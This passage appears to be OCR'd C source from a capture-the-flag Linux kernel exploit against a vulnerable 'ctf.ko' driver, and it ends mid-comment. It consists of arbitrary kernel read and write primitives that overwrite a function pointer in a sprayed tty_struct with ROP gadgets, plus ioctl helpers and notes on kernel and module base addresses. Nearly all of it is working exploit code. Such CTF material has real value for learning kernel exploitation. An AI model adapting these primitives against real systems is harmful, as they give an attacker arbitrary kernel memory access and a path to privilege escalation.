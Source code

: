 ```c
void free_ctfdata()
{
    ioctl(ctf_fd, 1338);
}

void new_ctfdata(unsigned long size)
{
    ioctl(ctf_fd, 1337, size);
}

void perr(const char *msg)
{
    puts(msg);
    if (ctf_fd != -1)
        close(ctf_fd);
    exit(1);
}

void show_u64ptr(unsigned long *ptr, size_t size)
{
    size_t len = size / 8;
    for (int i = 0; i < len; i++)
        printf("[%d\t0x%02x]\t0x%016lx\n", i, i*8, ptr[i]);
}

unsigned long aar32(unsigned long addr)
{
    unsigned long val;

    u64_ptr[46] = kernel_base + mov_rax_prdx_ret;
    write(ctf_fd, chr_ptr, 0x2b8);

    if (target_fd != -1)
        return ioctl(spray[target_fd], 0, addr);

    for (int i = 0; i < 0x100; i++) {
        val = ioctl(spray[i], 0, addr);
        if (val != 0xffffffffffffffff) {
            target_fd = i;
            return val;
        }
    }
    return 0;
}

void aaw32(unsigned long addr, unsigned data)
{
    u64_ptr[46] = kernel_base + mov_prdx_esi;
    write(ctf_fd, chr_ptr, 0x2b8);

    if (target_fd != -1) {
        ioctl(spray[target_fd], data, addr - 0x10);
        return;
    }

    for (int i = 0; i < 0x100; i++)
        write(spray[i], data, addr - 0x10);
}


/* 0xffffffff81000000 _stext
 * 0xffffffffc0000000 ctf.ko
 * sizeof(struct tty_struct) == 0x2b8
```